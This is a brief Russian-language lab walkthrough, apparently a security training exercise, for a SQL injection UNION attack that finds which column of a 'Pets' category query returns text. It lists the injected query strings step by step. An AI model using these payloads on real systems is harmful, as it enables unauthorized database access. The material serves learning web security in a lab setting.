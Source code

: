 ## Lab: SQL injection UNION attack, finding a column containing text
1) Переходим на сайт задания и заходим в раздел Pets
2) Убедимся, что запрос возвращает три столбца, отправив строку category=Pets'+UNION+SELECT+NULL,NULL,NULL--

![](https://github.com/NaylyaZh99/hacking/blob/master/lab:%20SQLi/lab:%20SQLi%20UNION/image1.png)

3) Меняем запрос, написав вместо одного из NULL необходимую строку(в нашем случае 'XEhsIC'). Сначала вместо первого NULL: 
category=Pets'+UNION+SELECT+'XEhsIC',NULL,NULL--

![](https://github.com/NaylyaZh99/hacking/blob/master/lab:%20SQLi/lab:%20SQLi%20UNION/image3.png)

4) Видим ошибку. Снова меняем запрос, на этот раз подставляя нашу строку вместо следующего NULL: 
category=Pets'+UNION+SELECT+NULL,'XEhsIC',NULL--

![](https://github.com/NaylyaZh99/hacking/blob/master/lab:%20SQLi/lab:%20SQLi%20UNION/image4.png)

Готово!
